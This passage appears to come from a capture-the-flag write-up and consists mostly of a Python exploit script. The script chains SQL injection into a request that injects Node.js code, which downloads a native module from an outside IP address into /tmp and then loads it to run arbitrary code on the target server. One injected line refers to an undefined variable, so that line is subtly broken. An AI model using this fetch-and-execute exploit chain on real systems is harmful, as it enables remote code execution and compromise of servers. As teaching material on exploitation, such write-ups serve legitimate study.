 Now, with the created `v.node` file, you can now create an exploit code to upload `v.node` file to the server and let the arbitrary code execute in remote.

```python
#!/usr/bin/python
#-*- coding: utf-8 -*-
import requests
import random
import base64


# SQL Injection
url = "http://47.57.246.66:12321/?str=world';{};--"
# Payload from other team
payload = "select group_concat(result)from curl where url='http://127.0.0.1:16324' and user_agent='\n\n\n\n\n\n\n\n\n\n\n\n\n\n{node}\n\n\n\n\n\n\n\n\n\n\n'"


"""
Write native module to server

fs = require("fs");
http = require("http")

f = fs.openSync("/tmp/styp.node", "w")
http.get({
    host: "158.101.144.10",
    port: 80,
    path: "/styp.node?exp"
}, function(resp){
    resp.on("data", function(exploit){
        fs.writeSync(f, exploit, 0, exploit.length)
    });
    resp.on("end", function(){
        fs.closeSync(f)
        process.exit(1)
    });
});
"""
gadget_init = "fs=require(\"fs\");f=fs.openSync(\"/tmp/styp.node\",\"w\");http=require(\"http\");http.get({ host:\"158.101.144.10\",port:80,path:\"/styp.node?q\"},function(r){r.on(\"data\",function(c){fs.writeSync(f, nc, 0, c.length);});r.on(\"end\", function(){fs.closeSync(f);process.exit(1);})});"
payload_init = payload.format(node=gadget_init)

r = requests.get(url.format(payload_init))
print(r.text)

"""
Run my native module

sty = require("/tmp/styp.node")
console.log(sty)
"""
gadget_shell = "sty=require(\"/tmp/styp.node\");console.log(sty);"
payload_shell = payload.format(node=gadget_shell)

r = requests.get(url.format(payload_shell))
print(r.text)

```
